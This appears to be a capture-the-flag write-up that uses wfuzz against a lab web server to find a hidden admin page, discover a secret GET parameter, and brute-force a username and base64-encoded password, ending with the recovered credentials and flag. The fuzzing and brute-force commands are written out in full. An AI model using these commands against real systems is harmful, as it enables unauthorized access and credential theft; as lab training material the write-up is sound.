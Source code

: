 # Web Fuzzing with `wfuzz`

1. Install `wfuzz`

   ```bash
   yay -S wfuzz-git
   ```

2. Find the administration `php` page

   ```bash
   wfuzz -w /usr/share/wfuzz/wordlists/general/common.txt --hc 404 http://10.192.72.221:7000/FUZZ.php
   ```

   ![](./images/adminPage.png)

   - The admin page is located at http://10.192.72.221:7000/private.php

     ![](./images/restrictedPage.png)

3. The administration page access is restricted. Use the fuzzer to bypass the restriction

   ```bash
   wfuzz -w /usr/share/wfuzz/wordlists/general/medium.txt --hh BBB http://10.192.72.221:7000/private.php\?FUZZ{notthis}
   ```

   - `\` to escape this fucker `?`
   - `{notthis}`used for the baseline

   ![](./images/fuzzGET.png)

   - The GET parameter is `id`

4. Find the value for the GET parameter

   ```bash 
   wfuzz -z range,0-9999 --hc 200 http://10.192.72.221:7000/private.php\?id=FUZZ
   ```

   ![](./images/GETValRange.png)

   - The value for the `id` GET parameter is 2600

     - Going to http://10.192.72.221:7000/private.php?id=2600 redirects us to PAGS

       ![](./images/PAGS.png)

5. Bruteforce the username

   ```bash
   wfuzz -w /usr/share/wfuzz/wordlists/others/names.txt --hs "wrong username" -d "username=FUZZ&password=" http://10.192.72.221:7000/pags/
   ```

   ![](./images/fuzzUsername.png)

   - The username is Josephine

6. Bruteforce the password (it has to be base64 encoded)

   ```bash
   wfuzz -z file,/usr/share/wfuzz/wordlists/others/common_pass.txt,base64 --hs "Wrong password" -d "username=Josephine&password=FUZZ" http://10.192.72.221:7000/pags/
   ```

   ![](./images/fuzzPasswdb64.png)

   - Decoding the base64, gives us Josephine's password `veritas`, however to log into PAGS, we need to pass the base64

     ![](./images/flag.png)

   Flag: SEC{fU224s3C}